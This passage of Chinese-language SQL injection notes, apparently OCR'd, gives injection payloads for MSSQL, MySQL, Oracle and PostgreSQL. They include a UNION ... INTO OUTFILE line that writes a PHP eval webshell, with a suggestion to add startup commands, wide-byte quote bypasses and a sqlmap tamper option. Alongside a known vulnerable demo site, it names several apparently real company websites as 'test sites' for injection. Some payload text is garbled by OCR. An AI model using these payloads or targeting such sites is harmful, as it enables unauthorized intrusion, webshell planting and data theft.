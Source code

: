 服务名  
```
and 1=(select @@servername) 
```  
如果为sa权限,可以进行扩展存储注入攻击,写入一句话等。  
 
测试站点：  
http://testasp.vulnweb.com/showforum.asp?id=0  
http://www.langesteel.com/onew11.asp?id=42574

工具：阿d,sqlmap,pangolin  
**mysql**  
一些常用函数  
```
Database() 数据库名
Version() 数据库版本
Load_file() 读取本地文件
@@datadir  读取数据库路径
@@basedir   mysql安装路径
@@version_compile_os   操作系统
常用数据库连接文件：config.php db_config.php include/common.inc.php
```  

单引号做过滤问题，16进制转化，16进制注入攻击  
  
Mysql 4.0不支持手工注入  
Mysql显错注入，针对单引号查询 -99999999999  
后台绕过，万能密码，注入  
添加提交"/*"，返回错误页面，说明数据库不是MySQL的。继续在注入点链接后添加"--"，显示正常页面，说明数据库可能为MSSQL和Oracle。再提交：  
写入一句话：  
```
Union select 1,”<?php eval($_GET[x];?>”,3 into outfile ‘c:/XX’,可以把系统命令放入bat开机自启
魔术引号与宽字节注入（Php 5.3.0以后废弃）
```  
Sqlmap --tamper unmagicquotes.py
1.16进制转译，读的时候
%bf%27
测试站点：   
www.kelichina.com  
www.szxcc.com   
其他数据库注入：  
**Oracle**  
dual   
Order by 前提时支持联合查询  
有注入的话联合查询  
```
Union select null,null,null from dual,用’null’判断是否为字符，用数字判断是否为数字
```  
**Postgresql**  
判断是否为postgresql数据库  
```
+and+1::int=1--(加号代表空格)
```  
判断数据库版本  
```
+and+1=cast(version() as int)--
```   
判断字段  
``` 
Order by
```
### 3.5.3 其他注入方式
**post注入**  
注册用户  
登陆账号，修改账户  
留言  
修改个人资料  